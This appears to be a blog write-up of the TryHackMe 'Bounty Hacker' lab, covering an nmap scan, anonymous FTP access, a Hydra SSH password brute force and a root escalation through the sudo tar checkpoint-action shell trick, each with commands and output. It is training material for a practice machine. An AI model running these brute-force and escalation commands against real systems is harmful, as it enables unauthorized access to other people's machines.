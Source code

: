 +++ 
categories = ["Hugo"] 
date = "2020-08-27" 
description = "Bounty Hacker - TryHackMe Writeup"

featuredalt = "" 
featuredpath = "date" 
linktitle = "" 
title = "Bounty Hacker - TryHackMe Writeup" 
slug = "Bounty Hacker - TryHackMe Writeup" 
type = "post" 
+++



![Bounty Hacker TryHackMe](https://github.com/Hdekisugi/lifeofdekisugi/blob/master/static/image/bounty_hacker.jpeg)



Welcome to my WriteUp. Ok So our journy starts from question 3 but before every question we need to enumerate the mechine. So Let's do it with **nmap**

## Service enumeration

```
# nmap -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-27 02:25 +06
Nmap scan report for 10.10.196.2
Host is up (0.31s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.67.68
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.50 seconds

```

Here we have port 21,22,80 open and we can see ftp have anonymous login allowed so let's do it.
```
Username : Anonymous
Password : Anonymous # In this mechine we don't need password to login.
```

## FTP enumeration

```
# ftp $ip
Connected to 10.10.196.2.
220 (vsFTPd 3.0.3)
Name (10.10.196.2:root): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
```

Here we have 2 text file. Grab it on our computer using mget *
If You want to download file one by one then you can simply use **get filename.ext**

```
ftp> mget *
mget locks.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
226 Transfer complete.
418 bytes received in 0.00 secs (350.0884 kB/s)
mget task.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
226 Transfer complete.
68 bytes received in 0.00 secs (220.6188 kB/s)
ftp> exit
221 Goodbye.
```
Ok So now we have two text file. From this two we will get our 3rd question answer.
If we look at question number 4 it say's **What service can you bruteforce with the text file found?** The text file locks.txt looks like a dictionary file we can bruteforce with this file on ssh using hydra.


## Bruteforce

**-l (Username)**
**-P (Password file)**

```
hydra -l lin -P ./locks.txt ssh://$ip 
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-08-27 02:31:57
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.196.2:22/
[22][ssh] host: $ip   login: lin   password: Re***4g***yn***at*
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-08-28 02:32:03

```

Now we have ssh username and password so let's login on ssh.

```
# ssh lin@$ip

lin@10.10.196.2's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)


lin@bountyhacker:~/Desktop$ ls
user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{C****_SyN******}
```

Here we got our **User.txt**


## Privilege Escalation


Now we have to get root.txt

If you try :
```
lin@bountyhacker:~/Desktop$ cat /root/root.txt
cat: /root/root.txt: Permission denied
```
So we have to get root access.
Start with ** sudo -l **
```
lin@bountyhacker:~$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```


We can run root using ** tar **
Now we need to find Root Escalation for tar. I always use gtfobins.github.io for this type of escalation.
If we search tar on GTFOBINS then we will found a line of code in **Sudo Section**
```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

You need to copy this code and pest on your bountyhacker ssh shell

```
lin@bountyhacker:~$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
THM{8***Y_h****r}
```


**Congratulations** you just complete Bounty Hacker from TryHackMe.
Thank You and see you on next writeup.
















